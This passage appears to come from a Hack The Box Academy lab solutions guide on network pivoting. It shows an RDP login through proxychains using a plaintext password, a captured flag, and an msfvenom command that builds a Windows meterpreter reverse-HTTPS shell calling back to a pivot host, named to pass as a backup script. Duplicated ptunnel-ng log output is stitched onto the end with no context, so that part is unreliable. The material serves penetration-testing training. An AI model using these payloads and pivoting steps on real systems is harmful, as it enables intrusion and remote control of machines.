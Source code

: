 ```
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

ProxyChains-3.1 (http://proxychains.sf.net)
[14:59:18:589] [7321:7322] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state

<SNIP>

Certificate details for 172.16.5.19:3389 (RDP-Server):
	Common Name: DC01.inlanefreight.local
	Subject:     CN = DC01.inlanefreight.local
	Issuer:      CN = DC01.inlanefreight.local
	Thumbprint:  42:73:b6:6e:c8:8e:af:88:90:d9:32:87:86:b6:20:7b:5a:16:7d:33:5b:e0:a2:51:d4:14:a8:bf:75:1b:45:ab
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
```

At last, once the `xfreerdp` connection is established, students will find the flag file on the Desktop directory, with its content being `N1c3Piv0t`:

![[HTB Solutions/CPTS/z. images/09b053f5d24d0cf13864043637964c28_MD5.jpg]]

Answer: `N1c3Piv0t`

# Remote/Reverse Port Forwarding with SSH

## Question 1

### "Which IP address assigned to the Ubuntu server Pivot host allows communication with the Windows server target? (Format: x.x.x.x)"

From the reading of the module's section, students will know that the Ubuntu server Pivot host has an internal IP address of 172.16.5.129. However, below are the steps that students should take to obtain a reverse shell from the Windows target.

Students first need to create a Windows HTTPS reverse shell payload using `msfvenom` on `Pwnbox`/`PMVPN`:

Code: shell

```shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 LPORT=8080 -f exe -o backupscript.exe
```

```
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 LPORT=8080 -f exe -o backupScript.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 741 bytes
Final size of exe file: 7168 bytes
Saved as: backupScript.exe
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.